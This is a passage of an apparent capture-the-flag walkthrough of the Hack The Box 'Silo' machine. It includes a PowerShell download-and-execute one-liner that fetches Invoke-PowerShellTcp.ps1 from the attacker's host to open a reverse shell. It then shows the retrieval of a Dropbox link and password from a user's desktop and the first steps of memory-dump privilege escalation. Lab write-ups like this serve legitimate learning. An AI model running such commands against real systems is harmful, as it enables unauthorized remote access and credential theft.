 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%203.png)

We need to start `python` server inorder to download it to the box. Started my `netcat` listener too.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/5.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/5.png)

Now its time to upload the module to the box

```bash
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/Invoke-PowerShellTcp.ps1')
```

We got the shell

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%204.png)


There is file in User directory and it contains a DropBox link and its password

```bash
PS C:\Users\Phineas\Desktop> download "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$
```

When I tried to open that, it shows me Incorrect Password.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%205.png)

After sometime, I viewed the same file using the web and it seems there is no `?` in the beginning.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%206.png)

So I logged in with that pasword and there is a file.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%207.png)

## Privilege Escalation by Memory Dump

The file we got from DropBox contains memory dump of the machine, we can use a tool called volatility to analyze it.

First we need get the system details for Volatility

```bash
PS C:\Users\Phineas\Desktop> systeminfo

Host Name:                 SILO
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
System Type:               x64-based PC
```

